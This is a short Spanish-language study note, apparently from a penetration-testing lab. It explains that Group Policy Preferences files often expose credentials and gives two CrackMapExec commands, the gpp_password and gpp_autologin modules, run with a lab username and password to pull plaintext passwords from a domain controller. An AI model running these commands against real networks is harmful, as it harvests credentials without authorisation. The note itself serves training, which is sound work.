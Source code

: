 # Intro

Muchas GPOs tienen datos de usuarios y usualmente pueden ser leídas por todos los users.

CME tiene dos módulos para esto:

gpp_password = busca passwords y las trae en plaintext

gpp_autologin = busca en el DC el registry.xml y trae passwords y users en plaintext.


## GPP_PASSWORD

    crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! -M gpp_password
## GPP_AUTOLOGIN
    crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! -M gpp_autologin
